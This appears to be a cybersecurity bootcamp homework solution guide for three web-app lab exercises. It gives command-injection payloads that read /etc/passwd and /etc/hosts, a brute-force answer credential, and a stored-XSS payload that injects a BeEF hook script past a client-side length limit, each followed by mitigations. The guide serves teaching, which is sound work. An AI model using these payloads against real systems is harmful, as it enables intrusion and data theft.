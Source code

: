 # Unit 15 Homework Solution Guide

## Web Application 1: *Your Wish is My Command Injection*

You were tasked with using the dot-dot-slash method to design two payloads that will display the contents of the following files:
   
   - `/etc/passwd`
   
   - `/etc/hosts`
  
   **Hint:** Try testing out a command directly on the command line to help design your payload.

### Solution

The payload to access `/etc/passwd` is  ` 127.0.0.1 && cat ../../../../../etc/passwd`.
  
  - The response should resemble: 
  
    ```
    PING 127.0.0.1 (127.0.0.1): 56 data bytes
    64 bytes from 127.0.0.1: icmp_seq=0 ttl=112 time=10.782 ms
    --- 127.0.0.1 ping statistics ---
    4 packets transmitted, 4 packets received, 0% packet loss
    round-trip min/avg/max/stddev = 10.782/13.324/19.145/3.394 ms
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    ........(more records from the /etc/passwd)
    ```


The payload to access `/etc/hosts` is   ` 127.0.0.1 && cat ../../../../../etc/hosts`.
  
  - The response should resemble:

    ```            
    PING 127.0.0.1 (127.0.0.1): 56 data bytes
    64 bytes from 127.0.0.1: icmp_seq=0 ttl=112 time=14.212 ms
    --- 127.0.0.1 ping statistics ---
    4 packets transmitted, 4 packets received, 0% packet loss
    round-trip min/avg/max/stddev = 11.580/13.453/14.394/1.118 ms
    127.0.0.1	localhost
    ::1	localhost ip6-localhost ip6-loopback
    fe00::0	ip6-localnet
    ff00::0	ip6-mcastprefix
    ff02::1	ip6-allnodes
    ff02::2	ip6-allrouters
    192.168.13.25	ab6396809425
    ```
  
**Deliverable:** There are many acceptable mitigations, including server-side input validation and server-side access control on files and directories.


## Web Application 2: *A Brute Force to Be Reckoned With*
 
Years ago, Replicants had a systems breach and several administrators passwords were stolen by a malicious hacker. The malicious hacker was only able to capture a list of passwords, not the associated accounts' usernames. Your manager is concerned that one of the administrators who accesses this new web application is using one of these compromised passwords. Therefore, there is a risk that the malicious hacker can use these passwords to access an administrator's account and view confidential data.

   - Use the web application tool **Burp Suite**, specifically the **Burp Suite Intruder** feature, to determine if any of the administrator accounts are vulnerable to a brute force attack on this web application. 

   - You've been provided with a list of administrators and the breached passwords:

     - [List of Administrators](listofadmins.txt)
     
     - [Breached list of Passwords](breached_passwords.txt)
  
   - Hint: Refer back to the Burp Intruder activity `10_Brute_Force` from Day 3 for guidance.

### Solution

- After using Burp Intruder, the only user/password combination that should work is:
    
    - User:  `tonystark`
    
    - Password: `I am Iron Man`

- After rendering the page for this success record, the message will say: `Successful login! You really are Iron Man :)`

**Deliverable:** There are many acceptable mitigations, including password controls such as password rotation, password lockout, and multi-factor authentication.

## **Web Application 3** : *Where's the BeEF?*

You were tasked with using a stored XSS attack to inject a BeEF hook into Replicants's main website.

- Task details:

  - The page you will test is the Replicants Stored XSS application, which was used the first day of this unit: `http://192.168.13.25/vulnerabilities/xss_s/`.
  - The BeEF hook, which was returned after running the `sudo beef` command was: `http://127.0.0.1:3000/hook.js`.
  - The payload to inject with this BeEF hook is: `<script src="http://127.0.0.1:3000/hook.js"></script>`.

-  When you attempt to inject this payload,  you will encounter a client-side limitation that will not allow you to enter the whole payload. You will need to find away around this limitation.    
      
  - **Hint:** Try right-clicking and selecting "Inspecting the Element."
    
- Once you are able to hook into Replicants's website, attempt a couple of BeEF exploits. 

### Solution

- The field does not have enough space to fit the entire payload. 

  ![A screenshot displays the XSS message field ](sol1.png)

- In order to add the entire payload, the `message` field length needs to be expanded.

  - *Note that this can also be accomplished using BURP to bypass the client-side limitations.*
  
  - To accomplish this, right-click within the `message` field and select `Inspect Element`.

    ![A screenshot displays the "Inspect Element" field](sol2.png)


- At the bottom of this page, you can find the `message` field HTML parameters.

  - Manually change the `max length` field from 50 to 100.

  ![A screenshot displays the "max length" field](sol3.png)

 
- Return to the origin page and enter the entire payload: `<script src="http://127.0.0.1:3000/hook.js"></script>` and click `sign guestbook`.

- When you return to BeEF, you can see your new browser has been hooked, allowing you to run a variety of BeEF commands.

  ![A screenshot displays the hooked new browser](sol4.png)


**Deliverable:** Users can implement server-side input validation to protect against the XSS attack. Users should have strong endpoint protection to monitor for exploits such as BeEF running within their browser. Additionally, some browsers have built-in controls to protect against BeEf hooking their browsers.

---

© 2023 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.
